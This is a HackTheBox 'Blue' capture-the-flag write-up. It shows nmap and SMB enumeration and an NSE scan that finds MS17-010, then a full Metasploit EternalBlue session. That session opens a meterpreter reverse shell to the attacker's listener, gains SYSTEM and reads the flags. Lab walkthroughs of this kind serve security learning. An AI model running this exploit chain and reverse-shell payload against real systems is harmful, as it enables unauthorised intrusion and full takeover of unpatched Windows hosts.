

---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - EternalBlue
  - MS17-010
  - Windows
  - anonymous-smb
---
# Resolution summary

>[!summary]
>- Target is vulnerable to MS17-010 (EternalBlue)

## Improved skills

- Exploitation known vulnerabilities

## Used tools

- nmap
- smbmap
- msfconsole

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Blue]
└─$ sudo nmap -p- 10.10.10.40 -sS -Pn -oN scans/all-tcp-ports.txt -v
...
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
...
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Blue]
└─$ sudo nmap -p135,139,445 10.10.10.40 -sV -sC -sT -Pn -oN scans/open-tcp-ports.txt
...
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -13m02s, deviation: 34m36s, median: 6m55s
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-14T10:52:45+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-05-14T09:52:43
|_  start_date: 2021-05-14T09:47:24
...
```

# Enumeration

## Port 139 & Port 445 - SMB/NetBIOS (Windows 7 Professional 7601 Service Pack 1 microsoft-ds)

Enumerated open shares:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Blue]
└─$ smbmap -H 10.10.10.40 -u ' ' -p ' '
[+] Guest session       IP: 10.10.10.40:445     Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

Accessed the read only shares:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Blue]
└─$ smbclient //10.10.10.40/Share
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 09:48:44 2017
  ..                                  D        0  Fri Jul 14 09:48:44 2017
  
┌──(kali㉿kali)-[~/CTFs/HTB/box/Blue]
└─$ smbclient //10.10.10.40/Users
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Jul 21 02:56:23 2017
  ..                                 DR        0  Fri Jul 21 02:56:23 2017
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Public                             DR        0  Tue Apr 12 03:51:29 2011
  
┌──(kali㉿kali)-[/mnt]
└─$ sudo mount //10.10.10.40/Users Users -o username=' ',password=' '

┌──(kali㉿kali)-[/mnt]
└─$ sudo mount //10.10.10.40/Share Share -o username=' ',password=' '

┌──(kali㉿kali)-[/mnt/Users/Public]
└─$ tree             
.
├── desktop.ini
├── Documents
│   └── desktop.ini
├── Downloads
│   └── desktop.ini
├── Favorites
├── Libraries
│   ├── desktop.ini
│   └── RecordedTV.library-ms
├── Music
│   ├── desktop.ini
│   └── Sample Music
│       ├── desktop.ini
│       ├── Kalimba.mp3
│       ├── Maid with the Flaxen Hair.mp3
│       └── Sleep Away.mp3
├── Pictures
│   ├── desktop.ini
│   └── Sample Pictures
│       ├── Chrysanthemum.jpg
│       ├── Desert.jpg
│       ├── desktop.ini
│       ├── Hydrangeas.jpg
│       ├── Jellyfish.jpg
│       ├── Koala.jpg
│       ├── Lighthouse.jpg
│       ├── Penguins.jpg
│       └── Tulips.jpg
├── Recorded TV
│   ├── desktop.ini
│   └── Sample Media
│       ├── desktop.ini
│       └── win7_scenic-demoshort_raw.wtv
└── Videos
    ├── desktop.ini
    └── Sample Videos
        ├── desktop.ini
        └── Wildlife.wmv

12 directories, 26 files

┌──(kali㉿kali)-[/mnt/Users/Default]
└─$ tree
.
├── AppData
│   ├── Local
│   │   ├── Microsoft
│   │   │   └── Windows
│   │   │       ├── GameExplorer
│   │   │       ├── History
│   │   │       └── Temporary Internet Files
│   │   └── Temp
│   └── Roaming
│       ├── Media Center Programs
│       └── Microsoft
│           ├── Internet Explorer
│           │   └── Quick Launch
│           │       ├── desktop.ini
│           │       ├── Shows Desktop.lnk
│           │       └── Window Switcher.lnk
│           └── Windows
│               ├── Cookies
│               ├── Network Shortcuts
│               ├── Printer Shortcuts
│               ├── Recent
│               ├── SendTo
│               │   ├── Compressed (zipped) Folder.ZFSendToTarget
│               │   ├── Desktop (create shortcut).DeskLink
│               │   ├── Desktop.ini
│               │   ├── Fax Recipient.lnk
│               │   └── Mail Recipient.MAPIMail
│               ├── Start Menu
│               │   └── Programs
│               │       ├── Accessories
│               │       │   ├── Accessibility
│               │       │   │   ├── Desktop.ini
│               │       │   │   ├── Ease of Access.lnk
│               │       │   │   ├── Magnify.lnk
│               │       │   │   ├── Narrator.lnk
│               │       │   │   └── On-Screen Keyboard.lnk
│               │       │   ├── Command Prompt.lnk
│               │       │   ├── Desktop.ini
│               │       │   ├── Notepad.lnk
│               │       │   ├── Run.lnk
│               │       │   ├── System Tools
│               │       │   │   ├── computer.lnk
│               │       │   │   ├── Control Panel.lnk
│               │       │   │   ├── Desktop.ini
│               │       │   │   └── Private Character Editor.lnk
│               │       │   └── Windows Explorer.lnk
│               │       └── Maintenance
│               │           ├── Desktop.ini
│               │           └── Help.lnk
│               └── Templates
├── Desktop
├── Documents
├── Downloads
├── Favorites
├── Links
├── Music
├── NTUSER.DAT
├── NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
├── NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
├── NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
├── NTUSER.DAT.LOG
├── NTUSER.DAT.LOG1
├── NTUSER.DAT.LOG2
├── Pictures
├── Saved Games
└── Videos

35 directories, 31 files
```

Used NSE to enumerate SMB vulnerabilities:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Blue]
└─$ sudo nmap -p139,445 10.10.10.40 -oN p445-enum.txt --script=smb-vuln*
...
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
...
```

# Exploitation

## ms17_010 - EternalBlue

```bash
┌──(kali㉿kali)-[/mnt/Users/Default]
└─$ msfconsole -q
msf6 > search ms17_010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection

Interact with a module by name or index. For example info 4, use 4 or use auxiliary/scanner/smb/smb_ms17_010

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.241.133  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.24
LHOST => 10.10.14.24
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 10099
LPORT => 10099
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.24:10099
[*] 10.10.10.40:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.24:10099 -> 10.10.10.40:49158) at 2021-05-14 06:15:30 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
...
C:\Users>whoami && hostname && type haris\Desktop\user.txt && type Administrator\Desktop\root.txt && ipconfig
whoami && hostname && type haris\Desktop\user.txt && type Administrator\Desktop\root.txt && ipconfig
nt authority\system
haris-PC
4c546aea7dbee75cbd71de245c8deea9ff548eb71e920ff6c08843ce9df4e717
Windows IP Configuration

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::19ee:f547:1681:f015
   Temporary IPv6 Address. . . . . . : dead:beef::7065:7ef3:c7ef:d1e9
   Link-local IPv6 Address . . . . . : fe80::19ee:f547:1681:f015%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.40
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:188e%11
                                       10.10.10.2

Tunnel adapter isatap.{CBC67B8A-5031-412C-AEA7-B3186D30360E}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```



# Trophy

>[!quote]
>If you give a hacker a new toy, the first thing he ll do is take it apart to figure out how it works.
>
>\- Jamie Zawinski

>[!success]
>**User.txt**
>4c546aea7dbee75cbd71de245c8deea9

>[!success]
>**Root.txt**
>ff548eb71e920ff6c08843ce9df4e717

